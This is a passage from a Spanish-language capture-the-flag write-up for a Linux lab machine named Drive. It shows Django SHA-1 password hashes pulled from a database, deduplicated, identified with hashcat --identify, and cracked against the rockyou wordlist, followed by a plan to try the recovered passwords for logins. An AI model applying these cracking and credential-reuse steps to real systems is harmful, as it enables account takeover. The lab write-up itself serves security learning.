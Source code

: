 ~~~bash
sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f
sha1$DhWa3Bym5bj9Ig73wYZRls$3ecc0c96b090dea7dfa0684b9a1521349170fc93
sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6f879f
sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337836a3
~~~

- Guardé este output en un archivo `out.txt`, y en seguida filtré para descartar los hashes de ``pbkdf2_sha256``, pues si no lo hago `john` no sabrá que formato utilizar.
- Además, eliminé los hashes repetidos con `sort`:

~~~bash
┌──(kali💀Dedsec)-[~/Maquinas/Linux/Drive/databases]
└─$ cat out.txt | grep -v "pbkdf2_sha256" | sort -u
sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6f879f
sha1$DhWa3Bym5bj9Ig73wYZRls$3ecc0c96b090dea7dfa0684b9a1521349170fc93
sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f
sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337836a3
sha1$kyvDtANaFByRUMNSXhjvMc$9e77fb56c31e7ff032f8deb1f0b5e8f42e9e3004
sha1$Ri2bP6RVoZD5XYGzeYWr7c$4053cb928103b6a9798b2521c4100db88969525a
sha1$Ri2bP6RVoZD5XYGzeYWr7c$71eb1093e10d8f7f4d1eb64fa604e6050f8ad141
sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a89132302483a 
~~~

- Moví esto a un archivo `hashes.txt`.
- Con john no logré sacar nada, así que usé hashcat.
- Nos dice que es un hash `django`:

~~~bash
┌──(kali💀Dedsec)-[~/Maquinas/Linux/Drive/databases]
└─$ hashcat --identify hashes.txt 
The following hash-mode match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
    124 | Django (SHA-1)                                             | Framework
~~~

- Y con esto en mente, le indicamos el valor del código del hash:

~~~bash
┌──(kali💀Dedsec)-[~/Maquinas/Linux/Drive/databases]
└─$ hashcat -m 124 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt   

hashcat (v6.2.6) starting

<------ TRASH ------>

sha1$kyvDtANaFByRUMNSXhjvMc$9e77fb56c31e7ff032f8deb1f0b5e8f42e9e3004:john316
sha1$Ri2bP6RVoZD5XYGzeYWr7c$71eb1093e10d8f7f4d1eb64fa604e6050f8ad141:johniscool
sha1$DhWa3Bym5bj9Ig73wYZRls$3ecc0c96b090dea7dfa0684b9a1521349170fc93:john boy
sha1$Ri2bP6RVoZD5XYGzeYWr7c$4053cb928103b6a9798b2521c4100db88969525a:johnmayer7
~~~

- Y bien, tenemos algunas contraseñas.
- Ahora intentaremos loguearnos con cada una entre los usuarios que conocemos.
- Si filtramos en la base de datos, las contraseñas serían todas de `tomhands`:
